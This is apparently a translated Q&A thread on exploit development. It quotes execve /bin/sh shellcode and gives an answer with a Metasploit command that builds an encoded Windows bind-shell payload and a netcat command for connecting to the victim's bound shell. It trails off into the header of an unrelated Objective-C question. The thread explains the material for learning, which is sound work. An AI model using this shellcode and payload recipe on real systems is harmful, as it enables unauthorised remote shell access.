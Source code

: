 作为参考，对于 shell 生成尝试，我使用了以下 shellcode：

```
char code[] = "\x31\xc0\x50\x68\x2f\x2f\x73\x68"
"\x68\x2f\x62\x69\x6e\x89\xe3\x50"
"\x54\x53\xb0\x3b\x50\xcd\x80"; 
```

* * *

## 回答 #1

> 赞同：3
> 
> 时间：2012-06-26T13:51:57.630

哈，我明白你的意思，但我相信你犯了一个根本性的错误。您正在调用交互式 shell 而不绑定它。

这就像调用“ifconfig”命令。如果你想要执行单个命令，那么你的 shell 代码是完美的，但是如果你想要一个交互式 shell，你不能只运行 sh。

**简单地运行 sh 将导致 shell 被执行，它不会给你对 shell 的交互控制。**

* * *

**解决方案：** 使用 shell 代码生成器创建反向 tcp shell 或绑定 shell，并将其用作您的漏洞利用的有效负载。

如果您尝试在 Metasploit 中执行此操作，那么这里有一个您想要的示例命令。

```
msfpayload windows/shell_bind_tcp LPORT=4444 R | msfencode -e x86/alpha_mixed -b '\x00' -t c 
```

*   Msfpayload 是函数的名称。windows/shell_bind_tcp 是漏洞利用路径
*   LPORT 是远程受害者机器可以访问 shell 的端口
*   R 用于原始输出
*   然后我们通过管道将其传递给 msfencode，因为我们需要它是 C 代码才能执行，并且必须针对该架构进行编译
*   -e 表示要支持的编码类型和架构，例如用于 Win Sp2
*   -b 表示您不能在 shell 代码中使用的字节。例如 00 是字符串字节的结尾
*   -t 是输出类型，如 C 代码。

多研究一点，玩一玩，你就会明白的。本质上，与执行静态命令相比，获得交互式 shell 要困难得多。

完成后，您可以使用 netcat 之类的程序来连接和使用 shell。

```
netcat.exe -nv <victim ip> <port where shell was bound to> 
```

希望这是正确的解决方案。

# objective-c - UITableView : popViewController 并将行索引保留到父控制器中？

> ID：10767075
> 
> 赞同：3
> 
> 时间：2012-05-26T14:28:33.400
> 
> 标签：objective-c, ios, uitableview, uiviewcontroller
